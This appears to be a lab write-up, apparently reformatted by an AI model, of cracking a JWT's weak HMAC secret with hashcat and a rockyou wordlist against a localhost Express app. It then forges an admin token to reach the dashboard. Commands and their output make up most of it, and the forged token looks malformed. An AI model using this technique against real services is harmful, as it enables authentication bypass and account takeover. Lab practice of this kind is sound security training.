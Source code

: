 
---

### Commands and Outputs:

#### 1. Login with valid credentials:

```bash
curl -X POST http://localhost/login --header "Content-Type: application/json" --data '{"username": "user", "password": "user"}'
```

**Output:**

```json
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsIWF0IjoxNjc1NDE2NzE1fQ.3vxLIVEcfPZlugDcq6gXl80R1iPJ37gKuayFHHGrO8k"
}
```

---

#### 2. Crack the JWT with Hashcat:

```bash
hashcat -a 0 -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsIWF0IjoxNjc1NDE2NzE1fQ.3vxLIVEcfPZlugDcq6gXl80R1iPJ37gKuayFHHGrO8k /usr/share/wordlists/rockyou.txt
```

---

#### 3. Start the server:

```bash
node server.js
```

**Output:**

```plaintext
http://localhost:80
```

---

### Commands and Outputs:

#### 1. Hashcat cracking process:

```bash
hashcat -a 0 -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsIWF0IjoxNjc1NDE2NzE1fQ.3vxLIVEcfPZlugDcq6gXl80R1iPJ37gKuayFHHGrO8k /usr/share/wordlists/rockyou.txt
```

**Output:**

```
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 16500 (JWT (JSON Web Token))
Hash.Target......: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlci...HGrO8k
Time.Started.....: Fri Feb 3 04:32:57 2023 (2 secs)
Time.Estimated...: Fri Feb 3 04:32:59 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 2389.4 kH/s (1.84ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 3004416/14344385 (20.94%)
Rejected.........: 0/3004416 (0.00%)
Restore.Point....: 2998272/14344385 (20.90%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: ufcfighter12 -> u67jun6jn76ju7j7
Hardware.Mon.#1..: Util: 55%

Started: Fri Feb 3 04:32:57 2023
Stopped: Fri Feb 3 04:33:00 2023
```

---

#### 2. Verifying the cracked password:

```bash
hashcat -a 0 -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsIWF0IjoxNjc1NDE2NzE1fQ.3vxLIVEcfPZlugDcq6gXl80R1iPJ37gKuayFHHGrO8k /usr/share/wordlists/rockyou.txt --show
```

**Output:**

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsIWF0IjoxNjc1NDE2NzE1fQ.3vxLIVEcfPZlugDcq6gXl80R1iPJ37gKuayFHHGrO8k:ucyxu6
```

---

### Cracked Password:

**`ucyxu6`**


---

### Command and Output:

We take the crack password go to jwt.io, grab our token, modify the user to admin and modify the signature to the cracked password and we get the dashboard to the admin

#### 1. Access the dashboard with a valid JWT for the admin user:

```bash
curl -i http://localhost/dashboard --Header 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsImJhZCI6MTY3M3NTQxcjcxN0.i0dcCe2SYhx0ZYSAJSDSe7D23TpCBKfyoDzx2G1xeeSU'
```

**Output:**

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 45
ETag: W/"2d-bqhMS3LH08+zkhZI3cPwYShjqaE"
Date: Fri, 03 Feb 2023 09:35:35 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{
  "message": "Welcome to your dashboard admin"
}
```

---

Let me know if you'd like additional formatting or further customization for your notes!